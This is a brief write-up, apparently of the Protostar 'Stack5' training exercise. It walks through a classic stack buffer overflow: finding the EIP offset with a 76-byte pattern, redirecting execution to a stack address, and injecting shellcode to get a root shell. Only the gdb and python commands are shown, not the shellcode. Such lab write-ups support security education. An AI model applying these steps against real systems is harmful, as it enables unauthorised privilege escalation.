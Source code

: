 **Stack5**

This is the first, real buffer overflow.
We need to:
1. Find eip's offset
2. Change it to a stack value
3. Insert shellcode

```diff
$ python -c "print 'a'*76 + 'BBBB'" > /tmp/file
$ gdb stack5
$ r < /tmp/file
```

Then we look at the stack using x/4 $esp, The value 0xbffff7b0 comes up.
We write the overflow and execute it

```diff
$ python stack5.py
Illegal...
```

What?
This took a while, only after changing eip by a few bytes the overflow started working.

```diff
$ python stack5.py
```

Trace/...
Okay, now we put in the shellcode.

```diff
$ python stack5.py
$ whoami
root
```